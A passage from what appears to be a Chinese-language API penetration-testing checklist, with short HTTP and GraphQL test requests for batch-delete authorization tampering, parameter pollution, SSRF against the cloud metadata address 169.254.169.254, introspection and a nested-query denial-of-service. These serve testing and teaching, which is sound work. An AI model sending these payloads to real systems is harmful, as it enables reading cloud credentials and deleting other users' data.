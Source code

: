 2. 批量操作漏洞测试
   ```http
   # 批量删除操作
   POST /api/content/batch-delete HTTP/1.1
   Content-Type: application/json
   
   {"ids":[1,2,3,4,5]}
   
   # 篡改测试(包含其他用户内容)
   {"ids":[1,2,3,101,102,103]}
   ```

3. API参数污染测试
   ```http
   # 测试重复参数处理
   GET /api/search?keyword=test&keyword=malicious HTTP/1.1
   
   # 测试JSON参数处理
   {"filter":{"status":"draft"},"filter":{"status":"all"}}
   ```

##### 5. 高级API漏洞测试

1. 服务器端请求伪造(SSRF)
   ```http
   # 原始请求
   POST /api/import HTTP/1.1
   Content-Type: application/json
   
   {"url":"https://trusted-source.com/data.json"}
   
   # SSRF测试
   {"url":"http://169.254.169.254/latest/meta-data/"}
   ```

2. GraphQL注入测试(如果使用GraphQL)
   ```graphql
   # 内省查询测试
   query {
     __schema {
       types { name, fields { name } }
     }
   }
   
   # 嵌套查询DOS测试
   query NestedQuery {
     posts {
       comments {
         user {
           posts {
             comments {
               # 更多嵌套...
             }
           }
         }
       }
     }
   }
   ```
